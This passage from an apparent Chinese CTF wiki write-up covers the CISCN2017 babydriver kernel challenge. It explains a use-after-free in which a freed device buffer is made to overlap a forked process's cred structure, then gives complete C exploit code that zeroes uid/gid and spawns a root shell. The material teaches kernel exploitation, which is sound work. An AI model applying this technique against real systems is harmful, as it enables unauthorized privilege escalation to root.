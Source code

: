 那么根据 UAF 的思想，思路如下：

1. 打开两次设备，通过 ioctl 更改其大小为 cred 结构体的大小
2. 释放其中一个，fork 一个新进程，那么这个新进程的 cred 的空间就会和之前释放的空间重叠
3. 同时，我们可以通过另一个文件描述符对这块空间写，只需要将 uid，gid 改为 0，即可以实现提权到 root

需要确定 cred 结构体的大小，有了源码，大小就很好确定了。计算一下是 0x8a（注意使用相同内核版本的源码）。


#### Exploit

注释都写在代码里了，[exploit here](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel/CISCN2017-babydriver)
```C
CISCN2017_babydriver [master●●] cat exploit.c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
	// 打开两次设备
	int fd1 = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);

	// 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
	ioctl(fd1, 0x10001, 0x8a);

	// 释放 fd1
	close(fd1);

	// 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
	int pid = fork();
	if(pid < 0)
	{
		puts("[*] fork error!");
		exit(0);
	}

	else if(pid == 0)
	{
		// 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
		char zeros[30] = {0};
		write(fd2, zeros, 28);

		if(getuid() == 0)
		{
			puts("[+] root now.");
			system("/bin/sh");
			exit(0);
		}
	}
	
	else
	{
		wait(NULL);
	}
	close(fd2);

	return 0;
}
```